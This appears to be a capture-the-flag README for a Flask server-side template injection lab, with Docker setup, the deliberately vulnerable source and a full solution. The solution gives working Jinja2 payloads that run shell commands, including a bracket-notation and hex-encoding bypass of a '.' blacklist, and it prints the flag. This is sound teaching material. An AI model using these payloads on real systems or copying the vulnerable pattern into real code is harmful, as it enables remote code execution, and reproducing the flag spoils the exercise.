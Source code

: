 # SSTI-Easy 1

### Difficulty: Easy

### Objective: Bypass blacklisted (".")

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>

The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` and get our flag!

![image](https://github.com/user-attachments/assets/579ab938-dac5-4d4a-8aed-3edd8ad37819)

Wait but the website prevented us from using the payload.

![image](https://github.com/user-attachments/assets/01fb2f5e-312b-48a1-b6b6-ffc1ceec65d7)

That's weird, it supposed to work. Let's inspect and analyze the provided source code.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string
import re

app=Flask(__name__)

@app.route('/', methods=('GET','POST'))
def index():
	if request.method=='POST':
		note=request.form['note']
		if sanitize(note):
			return render_template_string(note)
		else:
			return('Please provide some text')
	return '''
		<form method="POST">
			Note:<input type="text" name="note">
			<input type="submit" value="Submit">
		</form>
	'''

def sanitize(x):
	if "." in x:
		return False
	return True

if __name__=='__main__':
	app.run(host='0.0.0.0',port= 5000,debug=True)

```

The website is confirmed to be vulnerable to SSTI (Jinja 2) as the source code contains the function `render_template_string`. However, there is a function that seems to be preventing us from reaching the vulnerable function which is the `sanitize()`. It will return boolean `False` when it detected the strings contains "." which can prevent a regular SSTI payload. We can use another SSTI payload to bypass this sanitization by replacing "." with square brackets.

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}`

![image](https://github.com/user-attachments/assets/531cce88-b3fe-46fb-8f07-1e2c3d123338)

Let's submit this payload and see what happens.

![image](https://github.com/user-attachments/assets/d3cbfda0-eee2-4e8c-bc99-04ec01dc5b8c)

And it works! We can view all the files contain inside the server directory. Let's try to view the flag using command:

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag-923a4ee403778170c879557425f22848.txt')['read']()}}`

![image](https://github.com/user-attachments/assets/c43644b2-a538-469d-89e3-7b2290c0d623)

Wait but the website still denying us? But why? It seems like the filename `flag-923a4ee403778170c879557425f22848.txt` has a "." in the extension which preventing us from performing the exploit.
Luckily, we can bypass this by simply encoding the filename into hex like this:

`\x66\x6c\x61\x67\x2d\x39\x32\x33\x61\x34\x65\x65\x34\x30\x33\x37\x37\x38\x31\x37\x30\x63\x38\x37\x39\x35\x35\x37\x34\x32\x35\x66\x32\x32\x38\x34\x38\x2e\x74\x78\x74`

Let's use it on our previous payload and it should be able to bypass the sanitization.

```{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat \x66\x6c\x61\x67\x2d\x39\x32\x33\x61\x34\x65\x65\x34\x30\x33\x37\x37\x38\x31\x37\x30\x63\x38\x37\x39\x35\x35\x37\x34\x32\x35\x66\x32\x32\x38\x34\x38\x2e\x74\x78\x74')['read']()}}```

At last, we finally able to obtain the flag!

![image](https://github.com/user-attachments/assets/7ccbea20-685f-40e4-b6a5-920619b8c222)

## Flag
>flag{c2ea5e9e00acde74027b2ad8cf5583bd}

</details>
